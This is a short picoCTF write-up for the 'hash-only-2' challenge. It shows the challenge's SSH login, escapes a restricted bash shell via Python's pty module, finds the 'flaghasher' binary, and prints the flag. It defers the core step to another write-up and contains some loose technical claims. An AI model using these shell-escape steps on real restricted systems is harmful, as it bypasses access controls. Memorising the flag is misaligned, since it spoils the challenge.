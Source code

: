 # hash-only-2

## Description

Here is a binary that has enough privilege to read the content of the flag file but will only let you know its hash. If only it could just give you the actual content! Connect using `ssh ctf-player@rescued-float.picoctf.net -p 49806` with the password, `6abf4a82` and run the binary named "flaghasher".

After opening the terminal we will give the command `sh` . The **sh** command invokes the default shell and uses its syntax and flags. The shell linked to the **/usr/bin/sh** path is the default shell. The standard configuration of the operating system links the **/usr/bin/sh** path to the Korn shell.

Now we will give the command $0 which tells about the refers to the name of the current script or shell.
So, it tells us about the rbash script where r means restricted. 
A restricted shell behaves identically to `bash` with the exception that the following are disallowed or not performed:

- Changing directories with the `cd` builtin.
- Setting or unsetting the values of the `SHELL`, `PATH`, `HISTFILE`, `ENV`, or `BASH_ENV` variables.
- Specifying command names containing slashes.
- Specifying a filename containing a slash as an argument to the `.` builtin command.

```
ctf-player@pico-chall$ sh
\[\e[35m\]\u\[\e[m\]@\[\e[35m\]pico-chall\[\e[m\]$ exit
ctf-player@pico-chall$ $0
-rbash: -rbash: command not found
```

We change the bash scripting environment by the command 

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

This command if used for shell up gradation if you are in a restricted shell. 
- **`python3 -c`**: Runs the following Python code from the command line.  
- **`import pty`**: Imports the `pty` (pseudo-terminal) module.
- **`pty.spawn("/bin/bash")`**:
	- Spawns a new bash shell attached to a pseudo-terminal.
    - This gives you a more **interactive shell**, allowing usage of commands like `clear`, `tab-completion`, `Ctrl+C`, and `arrow keys` which may not work in a basic reverse shell.

Now we see that the shell is changes to /bin/rbash

```
ctf-player@pico-chall$ python3 -c 'import pty; pty.spawn("/bin/bash")'
ctf-player@challenge:~$ echo $SHELL
/bin/rbash
ctf-player@challenge:~$ ls
ctf-player@challenge:~$ cd /
ctf-player@challenge:/$ ls
bin   challenge  etc   lib    lib64   media  opt   root  sbin  sys  usr
boot  dev        home  lib32  libx32  mnt    proc  run   srv   tmp  var

```

We find the flaghasher file by using the command 
```
find / -name flaghasher 2>/dev/null
```

Now the challenge will be solved in the same way as for the **[[2025/hash-only-1]]** 

```
ctf-player@challenge:/$ find / -name flaghasher 2>/dev/null
/usr/local/bin/flaghasher
ctf-player@challenge:/$ cd /usr/local/bin
ctf-player@challenge:/usr/local/bin$ ls
flaghasher

```
#### FLAG - picoCTF{Co-@utH0r_Of_Sy5tem_b!n@riEs_6e3b0209}

